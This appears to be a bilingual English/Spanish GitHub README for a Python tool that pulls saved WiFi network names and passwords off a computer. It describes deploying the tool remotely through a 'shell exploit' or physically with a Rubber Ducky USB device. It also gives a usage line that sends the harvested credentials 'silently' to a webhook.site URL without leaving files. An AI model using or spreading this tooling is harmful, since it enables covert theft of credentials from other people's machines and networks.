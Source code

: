 # WIFI_Extractor

you might need this requeriments
Tal vez podrias necesitar estos requerimientos

pip install click
pip install elementpath
pip install requests

Script to extract WIFI passwords from a pc uploading it remotely (shell exploit) and send it to a url "silently"(webhook without leaving files 
and also can be used offline, physically (rubby ducky)

Script para extraer contraseñas WIFI de un pc subiendolo remotamente(shell exploit) y enviarlo a una url "silenciosamente"(webhook) 
Tambien se puede usar offline, físicamente con un pendrive(rubby ducky)

Usage

Usage: E_WIFI.py [OPTIONS]

Options:
  -u, --url TEXT      Webhook/POST URL
  -o, --only-webhook  Only send data to webhook (whithout creating the txt
                      file) need to specify the url with -u Envía los datos
                      solo a la webhook (sin crear el archivo txt) necesitas
                      especificar la url con -u
  -v, --version       Imprime la version | Prints the version
  --help              Show this message and exit.

Offline

python3 E_WIFIoffline.py

Creates a txt with the WIFI's ssid and passwords stored in the local machine
Crea un txt con los nombres y las contrasenas WIFI guardadas en la maquina local

Online

Usages

default usage
python3 E_WIFI.py

Creates a txt with the WIFI's ssid and passwords stored in the local machine
Crea un txt con los nombres y las contrasenas WIFI guardadas en la maquina local

silent: Only webhook, no txt file
python3 E_WIFI.py -u https://webhook.site/yoururl -o

type --help for more detailed info

